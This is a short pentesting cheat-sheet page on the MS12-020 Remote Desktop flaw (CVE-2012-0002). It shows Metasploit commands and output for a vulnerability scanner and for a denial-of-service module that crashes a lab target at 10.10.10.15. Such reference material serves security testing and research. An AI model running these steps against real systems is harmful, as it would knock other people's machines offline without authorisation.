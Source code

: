 ```yaml
---
title : "CVE-2012-0002"
# pre : ' '
description : "Vulnerabilities in Remote Desktop Could Allow Remote Code Execution."
date : 2020-03-23T11:21:55+01:00
# hidden : true
# draft : true
weight : 20
# tags : ['']
---
```


---

## MS12-020

- MS12-020
- CVE-2012-0002
- CVE-2012-0152

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

## Examples

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit DoS

Will bluescreen the target.

```plain
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

## URL List

- [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
